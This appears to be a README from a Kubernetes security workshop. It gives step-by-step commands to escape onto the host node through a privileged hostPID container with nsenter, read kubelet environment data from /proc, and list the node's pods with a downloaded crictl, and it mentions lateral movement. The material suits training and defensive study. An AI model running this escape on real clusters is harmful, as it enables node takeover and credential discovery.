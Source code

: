 # Deploy privileged container, A Container That Doesn't Contain Anything

## Quick Start

1. Run the following command to deploy the privilege container

   ```bash
   kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
   ```

1. Run the `top` command and look for some interesting processes like `kubelet`

1. Inspect `kubelet` environment variables, ie: `cat /proc/$PID/environ`

    ```bash
    cat /proc/235/environ 
    HTTPS_PROXY=HTTP_PROXY=LANG=C.UTF-8NO_PROXY=PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binINVOCATION_ID=047f52a1d2854c73b39863c31edb2639JOURNAL_STREAM=8:243012KUBELET_KUBECONFIG_ARGS=--bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.confKUBELET_CONFIG_ARGS=--config=/var/lib/kubelet/config.yamlKUBELET_KUBEADM_ARGS=--container-runtime-endpoint=unix:///run/containerd/containerd.sock --node-ip=172.19.0.5 --node-labels= --pod-infra-container-image=registry.k8s.io/pause:3.9 --provider-id=kind://docker/workshop-cluster/workshop-cluster-worker2KUBELET_EXTRA_ARGS=--runtime-cgroups=/system.slice/containerd.service
    ```

1. Download `crictl` and list all the running pods on this particular node

    ```bash
    apt update && apt install -f wget tar
    wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.0/crictl-v1.27.0-linux-amd64.tar.gz -O /tmp/crictl.tar.gz
    tar xvf /tmp/crictl.tar.gz -C /tmp
    ```

1. List pods

    ```bash
    cd /tmp
    ./crictl  ps -a
    ```

1. For here you can do other interesting stuff like lateral movement

## Resources

- <https://kubehound.io/reference/attacks/EXPLOIT_CONTAINERD_SOCK/>